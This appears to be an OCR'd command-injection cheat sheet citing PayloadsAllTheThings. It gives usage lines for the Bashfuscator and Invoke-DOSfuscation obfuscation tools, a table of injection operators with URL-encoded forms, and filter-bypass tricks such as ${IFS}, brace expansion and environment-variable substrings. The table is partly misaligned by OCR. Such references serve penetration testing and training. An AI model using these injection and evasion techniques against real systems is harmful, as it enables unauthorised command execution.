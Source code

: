 [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space)

##### Tools

- **Linux**

  ```bash
  bashfuscator -c '[COMMAND]' -s 1 -t 1 --no-mangling --layers 1
  ```

- **Windows**

  [DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation)

  ```powershell
  Import-Module .\Invoke-DOSfuscation.psd1
  Invoke-DOSfuscation
  SET COMMAND [COMMAND]
  encoding
  1
  ```

  

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command**                       |                                    |                              |
| ---------------------- | ----------------------- | ------------------------- | ------------------------------------------ | ---------------------------------- | ---------------------------- |
| Semicolon              | `;`                     | `%3b`                     | Both                                       |                                    |                              |
| New Line               | `\n`                    | `%0a`                     | Both                                       |                                    |                              |
| Background             | `&`                     | `%26`                     | Both (second output generally shown first) |                                    |                              |
| Pipe                   | ` \| `                  | ` \| `                    | `%7c`                                      | Both (only second output is shown) |                              |
| AND                    | `&&`                    | `%26%26`                  | Both (only if first succeeds)              |                                    |                              |
| OR                     | `                       |                           | `                                          | `%7c%7c`                           | Second (only if first fails) |
| Sub-Shell              | `$()`                   | `%24%28%29`               | Both (Linux-only)                          |                                    |                              |

##### Filters

- **Characters**

  - Space:
    - Tab: `%09`
    - IFS Linux Variable has default value space+ tab: `${IFS}`
    - `Bash Brace Expansion` feature, which automatically adds spaces between arguments wrapped between braces, e.g. `{ls,-la}`
  - Linux slash `/`
    - Env variables: `${PATH:0:1}` same with `$HOME` or `$PWD`
  - Windows slash `\`
    - cmd: `%HOMEPATH:~6,-[USERNAME-LENGHT]%`
    - Powershell: `$env:HOMEPATH[0]`
  - Semi-colon `;`
    - Linux only: `${LS_COLORS:10:1}`
